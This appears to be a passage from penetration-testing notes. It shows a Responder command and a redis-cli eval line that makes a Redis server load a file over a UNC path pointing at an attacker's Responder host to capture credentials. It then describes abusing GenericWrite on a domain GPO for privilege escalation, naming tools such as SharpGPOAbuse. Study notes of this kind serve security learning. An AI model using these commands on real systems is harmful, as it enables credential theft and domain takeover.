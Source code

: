 ```
$ sudo responder -I tun0

redis-cli> eval "dofile('//$RESPONDER_IP//Share')"
```

#### GenericWrite Permissions to a domain GPO Privilege Escalation Technique
If a Domain Admin has GenericWrite permissions to a GPO policy it is possible to add that user to the LocalAdministrators group.
Attack known as Windows GPO Abuse.\
Exploit with tools like: SharpGPOAbuse, PowerGPOAbuse, pyGPOAbuse.\
**[Link](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-group-policy-objects/#abuse-gpo-with-sharpgpoabuse)** to the resource I found while researching the privilege escalation technique.